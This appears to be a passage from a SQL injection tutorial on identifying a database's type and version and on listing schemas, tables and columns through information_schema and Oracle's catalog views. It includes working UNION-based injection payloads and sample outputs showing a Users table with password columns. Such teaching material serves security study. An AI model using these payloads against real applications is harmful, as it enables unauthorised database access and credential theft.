## Querying the Database Type and Version
You can potentially identify both the database type and version by injecting provider-specific queries to see if one works. The following are some queries to determine the database version for some popular database types:

|Database type|Query|
|---|---|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Enumerating using `information_schema` Database
The `information_schema` database contains metadata about the database, tables, and columns present on the server, making it a crucial step for attackers to view or enumerate when performing SQL injection vulnerabilities.
> Note: Most databases have an `information_schema` present, except for Oracle databases.

There are a couple of ways an attacker can use the `information_schema` database to fingerprint the database:
### Query `schemata` Table to List All Databases
The table `schemata` in the `informatioN-schema` database contains information about all databases on the server. The `schema_name` column contains all the databases names currently present.
```sql
1' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
> Note: We are adding an extra dash (-) at the end, to show you that there is a space after (--).
### Listing Contents of Databases
An attacker can also query the `tables` in the `information_schema` database to view information about all the tables throughout the database. This table contains multiple columns, but the `TABLE_NAME` and `TABLE_SCHEMA` are the most important ones as they store the table names and the table's associated database.
```sql
SELECT * FROM information_schema.tables
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
Additionally, you can also inspect the table structure by submitting the following query:
```sql
SELECT * FROM information_schema.columns WHERE table_name='Users'
```
This returns the following output:
```txt
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```
### Listing Contents of Oracle Databases
On Oracle, you can find the same information as follows:
- You can list tables by querying `all_tables`:
```sql
SELECT * FROM all_tables
```
- You can list columns by querying `all_tab_columns`:
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```